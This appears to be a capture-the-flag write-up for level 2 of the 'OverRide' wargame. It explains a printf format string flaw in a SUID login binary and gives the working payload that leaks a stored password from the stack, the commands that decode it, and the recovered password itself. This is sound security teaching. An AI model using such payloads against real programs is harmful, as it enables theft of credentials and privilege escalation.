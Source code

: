 # Level 2

## Vulnerability

printf() format string attack, read password on stack

## Context

We find a binary with owner ```level03``` and SUID.
```
level02@OverRide:~$ ls -l
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
```

When run it prompts user to log in with username and password. It exits if given incorrect password.
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: me!
--[ Password: mine!
*****************************************
me! does not have access!
```

## Solution

### main() overview

Investigating with gdb we find no other functions apart from ```main()```. See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level02/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` reads the correct password for user ```level03```, from the ```/home/users/level03/.pass``` file, into a variable on the stack.

Then ```main()``` prompts user for username and password, reading from stdin.

Finally ```strncmp()``` compares the password input by user with the correct password. If the password is correct ```system("/bin/sh")``` opens a shell.

### Exploit

The key vulnerability is the username provided is then printed with ```printf()```. So we can use the format string attack to print what is on the stack, where the password is stored.

With the format string attack, looking through arguments in the stack we find what looks like a password at arguments 22-26.
```
level02@OverRide:~$ (python -c 'print("%26$p%25$p%24$p%23$p%22$p")'; python -c 'print("password")'; cat) | ~/level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```

Converted to ASCII, and reversed to revert endian, we find our password.
```
level02@OverRide:~$ echo 0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 | xxd -r -p | rev
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's log in to confirm this is the correct password.
```
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
...
level03@OverRide:~$
```

## Recreate Exploited Binary


